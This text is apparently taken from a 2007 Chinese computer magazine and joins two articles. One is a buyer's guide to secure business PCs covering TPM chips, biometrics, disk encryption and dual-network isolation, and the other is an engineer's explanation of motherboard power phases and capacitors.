作为以销售信息为主的企业，房地产中介公司自然对台式机的信息安全以及保密格外重视。我们不仅仅是要防护来自于黑客的外界信息窃密，更要防止内部的信息窃密。由于每个中介员工都有自己的房源信息和客户资源，因此互相之间的保密也非常重要。但是，我们每个门店的电脑数量并不多，因此面向大型企业的解决方案肯定不适合我们。单一PC本身的安全保密技术，这才是我们所需要的，而不是基于网络的安全保护。

何先生：企业管理咨询公司

我们公司的客户资源以及商业机密保密都非常重要。公司上百个员工的电脑都处于一个局域网内，此时防止外界的侵入以及内部的数据窃取都非常重要。基于防火墙、入侵检测和病毒防范的“老三样”对我们还是有用的，但是内部的防护依然非常重要。很多资料我们只允许员工在公司内部使用，绝对不允许带到外部使用。

范小姐：数据挖掘公司

数据挖掘是从大量的、不完全的、有噪声的、模糊的、随机的数据集中识别有效的、新颖的、潜在有用的以及最终可理解的模式的非平凡过程。我们公司存储的数据量非常巨大，此时信息保密成为头等大事。我们要求台式机PC具备强大的安全防护能力，抵御外界的侵入，而且确保硬盘存储数据的安全。

张先生：软件开发公司

作为软件公司，我们员工对于信息管理有着较好的素养，因此我们更加需要的是在数据安全层面的保护。由于现在硬盘的质量普遍令人担忧，而备份的成本与耗时又是我们难以承担的，所以我们要求PC有着较好的灾难恢复系统。此外，为了防止软件源代码泄漏，我们还会选择硬盘加密技术。如果PC厂商能够提供这种配套服务，那么这将降低不少成本。

### 二、“可信计算”的代：PC厂商牵手安全芯片

“可信计算”的概念开始在世界范围内被提出是在1999年，主要是通过增强现有的PC终端体系结构的安全性来保证整个系统的安全。“可信计算”技术的核心是称为TPM（可信平台模块）的安全芯片。据IDC预测，到2007年，全球70%的PC将装有安全芯片和可信软件。更有专家预言，未来安全芯片将成为计算机的标准配置之一，而且今后所有联网的智能设备上都将需要安全芯片。作为世界最重要的PC市场之一，中国届时将迎来“安全PC时代”。

##### 1. TPM芯片大势所趋

作为可信计算技术的核心，TPM被业内喻为安全PC产业链的“信任原点”，旨在将PC变成一个安全可信的计算平台。在实际应用中，TPM安全芯片被嵌入到PC主板之上，TPM安全芯片的实质是一个可独立进行密钥生成、加解密的装置，内部拥有独立的处理器和存储单元，可存储密钥和敏感数据，为各种计算平台提供完整性度量、数据安全保护和身份认证服务。

号称微软有史以来最具革命性的操作系统的Windows Vista已经出现在我们的面前。这款新一代的操作系统被微软自诩为具备更好的安全性，而这个安全性正是建立在TPM安全芯片的基础之上的。对此，我们可以大胆地推断出TPM将来肯定会像USB接口一样成为每台PC的标配。TPM技术最核心的功能在于对CPU处理的数据流进行加密，同时监测系统底层的状态。在这个基础上，可以开发出唯一身份识别、系统登录加密、文件夹加密、网络通讯加密等各个环节的安全应用。它能够生成加密的密钥，还有密钥的存储和身份的验证，可以高速进行数据加密和还原，作为呵护BIOS和操作系统不被修改的辅助处理器，通过TSS与TPM的结合来构建跨平台与软硬件系统的可信计算体系结构。
TPM安全芯片。

##### 2. 两大国内品牌

目前安全PC上所采用的安全芯片都被称为TPM安全芯片，TPM的全称为Trusted Platform Module（信任平台模块），旨在将PC变成一个安全可信的计算平台；另一方面，TPM是一个国际性行业规范，它是由TCG组织制定的（TCG组织由Intel、AMD、Microsoft、IBM、惠普、SUN等几十家巨头成员组成），目的在于建立可信任的安全计算标准。目前已制定了TCG TPM v1.1和TCG TPM v1.2两个规范（后者兼容前者），符合TPM规范生产的安全芯片具有一致性和通用性，也就是我们这里所说的TPM安全芯片。目前国内品牌安全PC采用的2种TPM安全芯片——联想和兆日，它们都符合TCG TPM v1.2规范。

TPM安全芯片一般安装在主板上。为了规范化设计，各厂商的产品在外观和引脚方面都大同小异。譬如，联想的“恒智”和兆日的“SSX35”安全芯片外观几乎一致。这两款国产TPM安全芯片都采用TSOP封装，拥有28个引脚。但是，在安装方式方面则分为可插拔和不可插拔两种。前者的好处是厂商可以将TPM安全芯片作为选配件来销售，而且在TPM芯片发生故障的时候可以便于更换。但是，可插拔设计存在被窃取后反向工程破解的风险，因此大多数用户更加倾向于可靠性更高的不可插拔设计。此外，也有少数安全PC所使用的TPM安全芯片整合在独立网卡芯片中，此时在主板上是看不到的，这样也有利于降低设备损坏时的更换成本，而实际使用效果是相同的。如图1，兆日的“SSX35”



> 小贴士：不同的TPM安全芯片有区别吗？
TPM安全芯片的设计遵循统一的标准，并且提供统一规范的编程接口，但最终功能的实现依赖软件完成。在安全功能的开发上，各个厂商可以根据不同的需要，能开发出不同的安全软件。因此，我们可以认为不同的TPM安全芯片在硬件上是几乎没有差别的，唯一的区别可能仅仅是稳定性，而事实上目前的制造工艺完全可以确保稳定性。真正决定TPM安全芯片应用效果的还是软件，这是大家在选购安全PC时所需要格外关注的。当然，由于TPM安全芯片的统一编程接口，因此大部分软件的应用效果都很不错。

##### 3. 安全芯片市场现状

事实上，除了联想的“恒智”和兆日的“SSX35”安全芯片以外，苏州国芯在2005年的中国国际软件博览会上宣布，其高性能32位RISC嵌入式安全CPU内核CS320已通过验证。这是继联想、兆日科技之后，第三家在安全芯片领域崭露头角的中国厂商。但是，该芯片目前实际应用非常少，在市场上很难看到。

很多读者可能还想到了国外的安全芯片，譬如TI和ARM等厂商。但是，可信计算本身具有安全方面的特殊性，每个国家在密码技术上都有相应的国家保护措施。我国商用密码管理条例中明确表明，密码产品必须由国内厂家完成设计、生产和销售。国内只有联想和兆日科技的TPM安全芯片已通过国家密码管理局认证。按照法规，如果PC厂商要在中国推出安全PC，必须使用通过国家密码管理局认证的产品，也就是目前必须使用联想“恒智”安全芯片或兆日TPM安全芯片，否则将被视为违法。

当然，市场上打擦边球的厂商还是不少。譬如，如果不以TPM安全芯片的形式出现，而是整合在某种处理器中，作为协处理器进行工作，那也完全可以实现类似的安全功能。但是，从配套软件开发便捷性以及市场宣传角度来看，此时无疑有所不利。因此，我们在国内看到的安全PC几乎完全以联想“恒智”和兆日“SSX35”安全芯片为主，而且后者是绝对主流。目前，联想安全芯片主要是自用。但是，联想安全芯片除应用在联想PC之外，还会根据需求提供给其他厂商。之所以目前其它PC厂商不采用联想安全芯片，而普遍与兆日合作，主要是因为这些PC厂商不愿意让关键性元件的货源掌握在竞争对手手中。

#### 三、身份识别技术：安全PC的第一道防线

国内安全PC市场在早期大约有60%的份额来自于政府，10%左右来自于军队。但发展趋势是所有用户都可能成为安全PC的消费者。每一台PC、每一个联网移动终端都必须是安全的。因此，保障PC安全的重任绝不仅仅是TPM安全芯片，身份识别技术也是一个主流分支，它可谓在安全PC与用户之间加上一道便于使用的锁。

以往我们对于PC身份验证功能的概念还仅仅停留于简单的CMOS加密，但是这种技术的实际应用价值非常低，完全可以轻松破解。从理论上来说，任何基于密码方式的身份验证技术都不安全，毕竟穷举破解永远是巨大的威胁。此外，无论厂商如何“科普”教育，用户的不良使用习惯总是会令密码口令显得非常脆弱。既然密码身份验证行不通，那么就得采取新的技术。

##### 1. 最佳安全体验：指纹识别技术

近期指纹识别功能成了许多笔记本产品的卖点之一。在联想、清华同方、IBM等厂商最近发布的新品中，指纹识别系统都成了标准配置。指纹识别在提高系统安全性方面的优势是非常明显的。首先，每个人的指纹是独一无二的，世界上任何两人都不存在着相同的手指指纹，这也排除了利用别人相同的指纹来破除指纹密码的可能性。其次，一般说来每个人的指纹是相当固定的，不会随着人的年龄的增长或身体健康程度的变化而变化。此外，如果要增加可靠性，只需登记更多的指纹、鉴别更多的手指，最多可以多达十个，而每个指纹都是独一无二的，这样就可以方便地利用多个指纹构成多重口令，提高系统的安全性。如图2，指纹识别是目前便于使用而强度较高的安全技术。

当然，从理论上来说，指纹识别技术也并非是完美的。由于非军事应用级别的指纹识别只记录指纹纹路的情况而不记录指纹深度和指纹温度，因此一个简单的指纹印模就能够帮助窃贼达到他们的目的。而且，如果你不小心把用于认证的手指割破了，或者很寒冷的情况下，指纹扫描就很有可能不能够识别你，从而把你这个合法的用户也阻挡在系统之外。但是，当指纹识别技术作为确保PC安全的第一道防线时，其牢度还是非常可靠的，能够有效防护非法用户的现场侵入，也不用担心台式机被盗时所出现的信息安全危机。如图3，支持指纹识别功能的同方超扬A570安全PC。





##### 2. 性价比解决方案：面像识别技术

面像识别技术包含面像检测、面像跟踪与面像比对等。面像检测是指在动态的场景与复杂的背景中判断是否存在面像并分离出面像，面像跟踪指对被检测到的面像进行动态目标跟踪，面像比对则是对被检测到的面像进行身份确认或在面像库中进行目标搜索。面像识别技术能够充分满足用户安全方面的需求，无论是用户登录、文件保密、Email/BBS密码管理、待机保护等常规应用，通过这项技术都能使一直困扰用户的安全问题得到彻底解决，而且其易用性也十分突出，让用户无需记忆任何繁琐的密码就能确保安全。

尽管面像识别技术的可靠性不如指纹识别技术那么高，但是这同样也令人放心，因为通过自动定位待检人脸特征值并且寻找多个脸部基准点扫描，其误识别概率低于百分之一。此外，随着内置摄像头在笔记本中成为一种潮流，面像识别技术的成本也可以大幅度降低。

#### 四、关于存储安全：硬盘加密与数据安全技术

PC应用的核心是数据，因此从存储设备角度进行安全功能的研发，这无疑是正确的道路。现在，基于TPM安全芯片的软件可以对硬盘进行加密，但是当我们并不需要复杂的TPM安全芯片时，其它方式实现对硬盘的加密也可以起到不错的安全防护效果。

##### 1. 硬盘厂商解决方案：全盘片加密技术

尽管加密看似是整机厂商的使命，但是硬盘厂商也没有闲着。如日中天的希捷推出了全盘片加密技术，并且将陆续应用在多款台式机和笔记本硬盘上。全盘片加密技术的原理并不复杂，就是在硬盘上采用集成的硬件加密芯片，自动对写入硬盘的所有用户数据进行加密，并在读取时解密。加密和解密的速度与接口的传输速度完全相同，不会导致硬盘性能下降。支持该功能的固件还允许开启和关闭加密功能，改变主密码和用户密码，或将密钥存储到另一个位置。加密芯片独立于操作系统，对操作系统透明，而且利用支持管理功能，可以恢复丢失的密码。

全盘片加密技术是硬件加密技术，它的安全性比普通的BIOS密码和系统密码高得多，在使用的时候也方便得多，不用频繁地输入密码。采用这种技术的硬盘即使遗失，由于明文密钥不在硬盘上，也不必担心里面的数据被人利用。虽然采用全盘片加密技术的硬盘售价比普通硬盘高，但它出色的保密性能将会受到军方和商务用户的青睐。如图4，支持全盘片加密技术的希捷硬盘。



##### 2. 便捷的硬件加密：智能卡（Smart Card）

通过软件进行加密是很容易想到的一个数据安全解决思路，但是软件的可复制性令其安全强度大打折扣。而如果让硬件和软件相结合，那岂不是更好的解决方案。为此，智能卡（Smart Card）很快诞生并且普及开来。在进行了相应软件的安装后，用户可对单个文件、整个目录乃至整个硬盘加密。用户使用时只要插入智能卡，电脑中的数据则完全对用户开放；如没有智能卡则加密数据就无法打开，即使将硬盘拆下，装到别的电脑上也无济于事。有些智能卡，还可在电脑使用的过程中拔除，此时电脑则会自动进入屏幕保护状态，再插入智能卡则又会完全恢复，可谓非常方便。如图5，智能卡堪称是最好用的PC钥匙。



##### 3. 形形色色的“一键”恢复

通过快捷键进行快速系统恢复或是病毒查杀，这已经算不上什么新鲜的技术，但是却的的确确给用户带来不少方便。一键恢复功能一定让不少用户印象深刻。此时用户可以随时进行系统备份和系统恢复，当出现系统崩溃时，可以方便恢复到曾经备份过的系统状态。由于该备份的数据保存在隐藏分区中，因此用户不会因为误操作而删除备份信息，并且一键恢复一般只需5~10分钟，简单易用且颇为有效。现在，几乎所有强调安全功能的台式PC都具备一键恢复功能。

与一键恢复相类似的还有一键杀毒功能。以联想新款台式机为例，其一键杀毒功能实现了在非Windows状态下查杀病毒。当发现病毒时，可以通过“一键”进入联想自主研发的嵌入式LEOS操作系统，然后再启动查杀病毒，更安全更彻底。当然，无论是一键恢复还是一键杀毒，在技术上实现起来并非非常困难。

#### 五、扎紧篱笆：双网隔离防止网络泄露

Internet网是个危险的地方，病毒、蠕虫、木马和黑客都虎视眈眈。Internet Storm Center近日发布资料显示，一台新的PC（安装Windows XP操作系统）上网，平均在20分钟内将会被病毒等第一次攻击。因此，不允许连接Internet是很多有着信息安全保密需求的企业对员工的普遍要求。但是，如今日常办公越来越离不开Internet，此时安全与便捷成为一对矛盾。对此，很多安全PC开始提供隔离功能，即双网隔离。这项技术通过部署单台电脑的内网、外网不同的应用系统并实现物理隔离和随时切换，切实防止来自网络的入侵。

### 1.成熟的选择：第三代双网隔离技术

追溯双网隔离技术的发展历程，我们可以发现这种成熟的技术已经发展到了第三代。第一代双网隔离技术采用硬盘电源切换技术，技术简单、成本低廉，但是容易损坏硬盘，目前这种技术已经被淘汰；第二代双网隔离技术采用切换硬盘电源+切换硬盘数据线的方式，是一种过渡性的技术，是厂商切换数据线技术没有研究成熟，切换效果不好，隔离不彻底，只能再加上切换硬盘电源作为辅助。

第三代双网隔离这种在目前具有更高科技含量的技术，采用切换硬盘数据线的方式来实现内外网络的隔离，同前两代技术相比，有其明显的优势。前两代技术利用机械开关控制两个硬盘的供电线路，以此来实现安全环境和不安全环境的绝对隔离。虽然此时成本较低，但是突然给硬盘断电和加电，硬盘磁头会划伤硬盘，造成硬盘物理损毁或数据丢失。由于数据丢失频繁，过几天就要重新安装内、外网系统，给用户应用造成很大的额外工作负担。第三代双网隔离技术采用切换硬盘数据线的方式，因为数据线的电压较低，切换时不需要断开硬盘电源，因此切换数据线既安全又不会对硬盘有损伤，而且这种方式兼容性也强，可以兼容用户的各种网络环境、操作系统、硬盘规格等情况。兼容性是衡量双网隔离效果的一个重要技术指标，一个好的双网隔离台式机应兼容用户的各种网络环境和操作系统等。如果台式机安全PC无法同时兼容各种网络环境，而是据此划分成各种型号，甚至要求安装双网卡分别连接内网和外网，那么这将给企业用户的网络布线、维护和升级造成许多不便，也说明该隔离技术不够成熟。此外，操作系统的支持度也非常重要，最好能够不依赖于驱动程序，这样可以实现对所有操作系统的兼容。最后不能忘记的是，使用双硬盘隔离方案的台式PC最好允许配置不同的应用。有些安全PC的双硬盘隔离方案要求两块硬盘的型号完全一样。一旦今后某一块硬盘损坏而又一时间找不到备件，那可就非常棘手了。

### 2.内行看门道：深入双网隔离技术

目前双网隔离应用中隔离最彻底、使用最安全的技术还应属双硬盘隔离方案，即需要准备两个硬盘，用于分割存储内外网信息。双硬盘隔离因为采用两个硬盘，两套系统，分时工作，相互隔离，因此独立性强，安全性高，存储性也强。并且，隔离卡安装在主板和硬盘之间，安全控制硬盘通道，通过切硬盘数据线控制内网和外网转换。与“切电”方式相比，由于不存在硬盘突然断电和加电的情况，所以不会对硬盘造成损伤，延长了硬盘的使用寿命，稳定性和可靠性也十分出众。

#### 六、按需定制：不同用户的选择

安全防护可大可小，因此知名的中小企业用户应当根据自己的实际需求进行有针对性的选择，这样才能达到最理想的效果。还是让我们回到开头提到的四个典型案例，让我们的专家来为大家进行详细解答。

### 1.房地产中介公司

根据业务情况来分析，此时信息安全需求级别并非很高，更需要的是防止同事之间的信息窃取，以及电脑的防盗。因此，我们认为TPM安全芯片或是双网隔离等技术都有些“杀鸡用牛刀”的感觉。更加适合的安全PC应当具备一定的信息加密功能和数据灾难恢复功能，并且提供防盗支持。现在，不少品牌机都支持隐藏分区以及一键灾难恢复，这类产品可能并没有明显打着“安全PC”的旗号，但却非常适合这类中小企业用户的实际需求。

### 2.企业管理咨询公司

对于一个中等规模的企业管理咨询公司，该公司的IT管理员认为信息安全的重点在于一些重要客户资料的保护，因此在选购安全PC时就应当有一定的针对性。毫无疑问，具备TPM安全芯片的安全PC是很不错的选择，因为安全芯片往往支持文件加密、口令管理、虚拟分区等功能，非常适合保管重要数据，防止信息泄密。对于一些重要的核心工作人员，还可以考虑配备具有指纹识别功能的安全PC，这样所起到的防护效果无疑是非常理想的。由于不少员工日常处理的文档非常多，所以在选购安全PC时最好关注那些具有灾难恢复功能的产品，譬如支持隐藏分区、支持硬盘还原等。

### 3.数据挖掘公司

数据挖掘公司的信息安全要求级别无疑是非常高的，而且核心数据比较分散，这给安全PC的采购带来一些便利。因此我们建议选购支持全盘加密或是带有TPM安全芯片的安全PC，这将给硬盘内的数据带来较好的安全防护功能。此外，有些安全PC采用支持硬件协处理器加密的CPU，譬如威盛C7，此时也能配合软件实现强度非常高的数据加密，具有很好的应用效果。

### 4.软件开发公司

作为IT企业，员工的IT应用基础知识较为丰富，因此对于一键恢复、隐藏分区等其实并没有很强烈的需求。但是，为了防止软件源代码泄漏，具备硬盘加密技术或是通过TPM安全芯片实现的加密功能还是非常有必要，尤其是研发部应当着重加强这方面的功能。在规模较大的软件开发公司采购安全PC时，建议一定要根据不同部门的特点来选配。譬如，关系到企业核心研发机密资料的研发部，可以考虑选择具有双网隔离功能的安全PC，此时可以杜绝一切来自于外界的侵入威胁。

#### 七、安全PC推荐

### 1.长城世恒S系列S-S66300

如图6，世恒S-S66300E采用Intel酷睿2 E6300处理器，该S系列安全电脑是专门针对高安全等级需求用户量身定做的，可提供高等级的数据安全保护的专业化安全电脑。世恒S-S66300E配备了兆日TPM安全芯片，采用“安全硬盘”技术，包含数据镜像、数据加密、分区隔离等功能，是目前安全防护效果非常全面的商用PC。
参考价格：8899元

### 2.联想开天M5250



如图7，开天M5250采用Socket AM2接口的Athlon 64，配合512MB DDR2内存以及160GB的SATA硬盘。M5250的系统散热设计为业界顶尖水平，独特的风道设计，特殊的内部布局，保证进入机箱的大部分冷空气顺畅地流向各主要发热部件，热空气加速排除到机箱外，保证机箱内顺畅地达到最大的平衡进风量与排风量，避免由于散热导致的频繁死机问题。开天整机通过不同温（湿）度、不同电压、多任务满负荷长时间运行测试，平均无故障运行时间（MTBF）达到70000小时，打破世界纪录，代表了世界一流的稳定性和兼容性。在安全功能方面，这款商用安全PC支持数据加密备份、硬盘防震功能以及先进的“应急”与“恢复”应用解决方案。
参考价格：9199元

### 3.浪潮英政3600

如图8，英政3600采用I945PM搭配Pentium D 820双核处理器，尽管配置一般，但是其安全功能非常出色。在兆日TPM安全芯片的支持下，文件加密、口令管理、安全虚拟分区功能非常完备，而且第三代双网隔离技术采用切换硬盘数据线的方式实现，安全性和可靠性都非常出色。由于这款安全PC还配备了GeForce 6600独立显卡，因此那些需要较强3D性能的设计公司也可以考虑，可谓是表现非常全面的安全PC。
参考价格：11699元

### 4.惠普Compaq DC7600

这款安全PC最大的特色是类似TPM安全芯片的功能通过整合在网卡芯片之中来实现，这样就绕过了相关规章限制，而且也能达到类似的安全防护效果，实现文件加密、口令管理、安全虚拟分区功能。此外，DC7600还配备SmartCard卡，让持卡用户才能使用这台PC。DC7600的物理防护也做得不错，Kensington锁、物理机箱锁、电磁机箱锁很好地防止了PC被盗。
参考价格：6280元(不带显示器)。

### 5.方正君逸M500

方正君逸M500置入的TPM安全芯片是一块安装在主板上的IC芯片，是目前世界上得到国家密码管理机构批准的SSX35安全芯片，具有自己的运算和存储能力。内嵌TPM安全芯片的君逸商用电脑可实现惟一主机平台身份识别，实现密钥管理、加密存储、远程控制、加密传输、严格审计、登录认证、轻松移植等超强功能。此外，方正独有的“方正PC管理专家”平台，集数据备份与恢复、软件远程智能部署、硬件诊断、系统状态监控与报警等多功能于一身，这一系统在TPM技术的支持下，创新性地实现了跨平台的数据保护，从而有效地提高了用户的工作效率。
参考价格：11999元(不带显示器)。

#### 八、安全PC选购误区

### 1.误区一：忽视软件安全技术

就像加装防盗门，两扇总比一扇强，可两扇门既不方便也不美观，还得多花一倍的钱。硬件防护与传统的软件防护相比，孰优孰劣？能否将两者合二为一？媒体报道一般认为：芯片级硬件加密要比软件的效率高，且可以根据硬件一一对应，保证关键资料被锁定在特定计算机中。但是，软件防护其实也能起到很不错的效果，而且芯片级硬件加密最终还是需要软件来实现功能。因此，我们认为“软硬兼施”是最好的解决方案，至少谁也不能取代谁。作为明智的企业采购者，不要在选购安全PC时盲目否定软件安全技术。如果对于安全保密级别的要求一般，那么纯软件安全技术也是可以考虑的。

### 2.误区二：过于重视硬件配置

为了确保PC性能，很多采购者都将更多的精力放在挑选硬件配置，以为更高的CPU主频或是更大的内存能够让企业用户更加满意。其实，如今PC硬件技术的发展已经略微超前于软件需求。如果安全需求的级别较高，建议在产品稳定性与安全保密功能上花费更多的成本，而把硬件配置放在相对次要的地位。如果本末倒置，那么这就不是选购安全PC了，而是选购“性能出色并稍微带有安全功能的PC”，这就完全是两码事了。

### 3.误区三：购买一大堆安全软件等于是安全PC

很多采购者认为只要选择了多款优秀的杀毒软件、防火墙软件，并结合一些数据加密软件，那么就可以让系统固若金汤。其实，同时安装多款安全软件并不会使系统更加安全。首先，防火墙的一些规则设置大体都不会差太远，之间并不具备互补，这样只会造成工作效率的下降，还弄巧成拙。至于加密软件，其易用性也往往无法与安全PC相媲美，实际使用中的效果非常有限。因此，如果信息涉密级别非常高，那么仅仅依靠市场通用的应用软件来确保安全是非常危险的。

### 4.误区四：非双网隔离不取

很多人对Internet的认识便是危险境地，因此采购者选择“双网隔离”技术往往很能够得到领导的赏识。但是，双网隔离技术一般只需要应用在安全级别非常高但是又离不开Internet办公环境的用户，中小企业根本没有必要为每个客户端都配备这样的安全PC。其实，任何安全PC都是按需定制的，所以采购者也应当根据企业内部的实际情况来针对性选择，不用完全照搬厂商的解决方案，那样只会造成浪费。

### 工程师教你如何识别板卡做工与用料

◆文/方成亮

在芯片组与GPU导致板卡产品性能同质化的今天，越来越多的用户将目光瞄准了板卡做工与用料。无论是超频还是实现各种附加功能，做工与用料的确都是不可忽视的因素。但是，我们在评判这两大指标时，也往往容易走向误区。理性看待是我们的基本要求，而不是盲目追求新技术，或是片面否定某些设计。

#### 一、超频源动力：供电单元的重要性

以目前双核心的酷睿2为例，尽管其TDP功耗不高，但是实际运行时的峰值功耗大约可以达到130W左右，而其电压超频时一般保持在1.3V。经过简单的计算，此时峰值供电电流大约需要100A。主板厂商所要做的是如何分配这100A电流，因为仅用单相供电实在太危险，此时供电元件难以承受高发热量。

##### 1. 多相供电解决矛盾

很多读者都了解主板的多相供电技术，那么这到底起到什么作用呢？以分配100A电流为例，如果仅仅是单项供电，那么电子元件的压力实在是太大，即便是固态电容也肯定不堪重负。而假如使用多相开关电源电路提供，那么每组分担的电流就会小得多，此时就可以减小发热量，从而保证稳定性。

从理论上说，多相供电肯定是有利的，但是如果厂商仅仅是为了采用低承受能力的电子元件而这样做就并不可取。很多缩水主板不仅只采用简单的两相供电，甚至供电单元的承受能力也达不到要求。如果主板能够采用三相供电甚至更多供电的话，至少应该是值得欢迎的，但是此时还需要在供电模块元件以及散热措施方面加以注意。

##### 2. 认识三相供电

很多消费者还会有这样的疑问：究竟如何识别三相供电？通常情况下，每相供电电路由一个电感线圈（CHOKE）、两个场效应管（MOS）和一个（或多个）电容构成。由于供电模块一般集中在CPU插槽附近，因此要判断主板采用了何种供电模块，我们只要从CPU插槽周围的电感线圈和MOS数量上就能推算出来。比如下图中是一个典型的三相供电电路，我们从上面可以清晰地看到CPU插槽边上的3个线圈、6个MOS管以及若干个电容。如图1，典型的三相供电设计。

同样的，经典两相供电一般包含2个线圈、4个MOS管以及2个或偶数个电容。至于现在不少主板采用的四相供电、五相供电、六相供电，也是相应的推算方法，而且的确在超频时有着更好的表现。如图2，四相供电设计。

##### 3. 电容在供电单元中的作用

电容又称电容器，它在电路中起着隔直流、通交流的重要作用。电容根据其在电路中不同位置的不同功能，分为耦合电容、滤波电容、谐振电容、旁路电容等类别。我们今天着重讨论的电容在CPU供电单元中，所起的作用主要是滤波，因此可以直接称为滤波电容。主板上的大容量滤波电容集中在12V电压的输入端和供电输出部分。

电容作为主板电源模块的重要组成部分作用是滤波，可以把脉动直流变成近似直流。所以在主板上会有不少电容来滤除相关电路产生的杂波，此时必须保证电源的纯净，这就需要使用大容量的电容来滤波。按理说，使用大容量电容的成本并不会很好，而且还可以使用多个小电容组合而成。但是，问题在于电容有一定的耐压和耐热范围。以现在的主板为例，几乎没有哪个厂商会吝啬到电容容量配置不够的地步，而是受困于电容耐压和耐热能力。如图3，高品质的大容量电容。






大家一般都会认为，电容鼓泡漏液都是因为过压造成的，而实际上并非如此。电容鼓泡漏液的最终原因都是因为过热。电解电容因为其结构特性，内部装有电解液，在使用过程中如果出现过压现象，这时电容的漏电流增大，电容会在短时间内迅速发热，导致电容的温度升高，电容内部的电解液会因高温变成气体致使电容内部的压力增大。当这个压力超过电解电容的铝外壳承受压力的时候，电容就会发生“爆浆”。电解电容漏液之后，其容量必然下降，此时供给CPU工作的核心电压就会发生变化。其中窜入周围电路产生的杂波和开关电源电路自身的波形将是稳定性杀手，导致系统极端的不稳定、运行速度变慢。

#### 二、深入了解电容：抛开电容论

小小的电容已经牵动了不少消费者的心，因此大家在选购主板时无不对其关注有加。其实，这里面存在不少误区。在面对低价位主板时代，厂商的成本与市场竞争压力很能理解，因此我们认为在确保产品稳定性的前提下，适当的“电容配置缩水”是完全可以接受的；这样反而能够节约成本，使得产品展现出更高的性价比。

目前处理器的频率越来越高，功耗越来越大，对主板电容的要求也越来越高。所以，从主板上小小的电容上面，就可以看出一块主板的真正品质。如果用户渴望选购一款超频王主板，那么还是有必要在元件用料方面有所讲究。客观而言，高精度大容量的Rubycon红宝石、SANYO、NICHICON、KZG等电容确实对于稳定超频有所帮助，但是要求所有的主板采用这类高档元件并不现实，毕竟不同产品有不同的市场定位。从理性的角度来看，我们认为电容只要容量达到一定的数值要求即可，因为在元件质量过关的情况下，完全能确保主板的稳定运行以及超频能力。如图4，日系KZG平台的大容量电容口碑不错。



一般说来电容容量越大越好，不过这也不是绝对的。大容量的电容不易过滤出高频干扰信号，而多个小容量电容并联却比单个大容量电容更有效、更稳定。虽然大容量电容提供的电流补偿能力更强，但是这会增大体积而影响空气流动和散热。更加关键的是，电容上存在寄生电感，电容放电回路会在某个频点上发生谐振。电容的容值越大，谐振频率越低，电容能有效补偿电流的频率范围也越小，不利于稳定性。从保证电容提供高频电流的能力的角度来说，电容越大越好的观点是错误的。再者，究竟选用多少容量的电容，这和主板的走线、电源设计也有一定的关系。我们可以看到华硕、技嘉、升技等品牌的主板有时并没有使用夸张的电容，但是超频表现依然很出色；而有些主板的电容貌似高容量，可实际超频性能却非常平庸。

此外，很多用户以为采用日系电容的主板超频性一定好。其实，超频不仅和电容有关，还和主板电路设计、时钟芯片、电源、BIOS设计等都有关系，不是单靠电容就能决定的，而且某些采用台系电容的主板超频性同样很好。在此前出现的一些“爆浆”事件中，罪魁祸首就是一些日系品牌的电容，这主要在于品控并不严格。因此，希望大家在购买主板时去除这些迷信。

#### 三、固态电容有什么好处

其实，固态电容在显卡上的应用已经很长一段历史，而与主板结缘还仅仅是最近。按理说，对功耗提出更高要求的Pentium4主板才会对固态电容“求贤若渴”，可是直到如今的“扣肉”主板时代，固态电容才如雨后春笋般接连出现。很快，无论是Socket AM2主板还是LGA775主板，固态电容都成为一种潮流。如图5，在显卡上普遍采用的固态电容。



##### 1. 杜绝漏液：固态电容值得肯定

固态电容与普通液态铝质电解电容的最大差别在于采用了不同的介电材料。液态铝质电容的介电材料为电解液，而固态电容的介电材料则为导电性高分子固体。固态电容采用具有高导电度及优异热稳定性的导电高分子材料作为固态电解质，大幅改善传统液态铝电解电容器的缺点，并展现出极为优异的电器特性与可靠度。如图6，固态电容彻底杜绝“爆浆”现象。


| 特性 | 固态电容 | 电解电容 |
| :--- | :--- | :--- |
| 耐热性 | 优秀 | 一般 |
| 允许涟波电流 | 优秀 | 一般 |
| 高频下的等效串联电阻 | 优秀 | 差 |
| 安全性 | 优秀 | 一般 |
| 环保 | 优秀 | 一般 |

在105℃高温下，固态电容和液态电容的寿命同样为2000小时，但温度越低固态电容寿命将会比液态电容越高，95℃、85℃、75℃、65℃下其寿命将会是1.5倍、2.5倍、4倍和6.25倍。一般情况下，其电容工作温度应在70℃或以下，因此采用全固态电容的主板电容寿命平均可达15万小时至2万小时，对比传统电容最高可增长6.3倍，达到23年寿命，从而使得电容不再是主板的定时炸弹。此外，固态电容的另一好处是电容量不易受使用时周围温度和湿度的影响，这样我们在使用的过程中不用过分的担心来自环境/温度/湿度的干扰，可以实现全天候无休工作。如图7，固态电容的耐热能力很出色。



##### 2. 固态电容的“马甲”：铝壳与塑料皮

同样是号称使用固态电容的主板，我们会发现部分主板在CPU周围的固态电容依然是类似以前的普通液态铝质电解电容，只不过体积更小一些。而部分主板采用的固态电容则穿上了铝壳外衣，酷似高端显卡上使用的电容。其实，这两类电容在本质上是没有区别的，都是真正的固态电容，只不过前者在铝壳之外又包上了一层塑料皮。如图8，包上一层塑料皮的固态电容。

168 电脑爱好者合订本·2007## 三、超频性能：固态电容并非“救世主”

采用固态电容的主板都超频性能强悍，这已经成为近期的消费者共识。平心而论，这种说法到目前为止还是比较正确的，因为主板厂商都将主打超频市场的主板采用固态电容，这种强强组合带来非常不错的效果。可是，随着固态电容逐渐演变为一个卖点，未来的情况可不好说，毕竟固态电容不是万能的。

众所周知，决定一款主板超频表现的因素绝不仅仅是电容，而且固态电容并不能提高电容的容量。以超频时的电容工作状态来看，只不过其耐压和耐温要求有所提高，而电容容量作为一种物理属性并不会变化。因此，并不存在将普通电容更换为等容量的固态电容就能提高超频性能的说法。从根本上来看，固态电容的贡献在于提高耐压和耐温能力，这让超频后的系统变得更加稳定，而不是让原本无法超频的主板瞬间冲破屏障。

#### 四、供电单元与布线设计

有些主板供电单元看起来很强悍，甚至可能还采用了固态电容，但是超频就是不行，为什么？在回答这一问题之前，我们有必要了解一下整个供电单元的其它元件，而不是仅仅将目光狭隘地集中在电容之上。

##### 1. 电感线圈

正如我们先前为大家所介绍的那样，供电单元不仅仅是电容，电感线圈也是不可忽视的部分。有些主板采用的线圈线径很细，绕组多的那种；有些则采用绕线圈数较少，线径很粗的线圈。线径很粗的线圈采用的是高导磁率、不易饱和的新型磁芯，所以不需要很多的绕线圈数就可以得到足够的磁通量，因此也被越来越多的主板生产商所采用。而那些线圈很细的电感则表现一般，容易因为磁通量不足而导致不稳定。如图9，封闭式线圈和固态电容的常见组合。

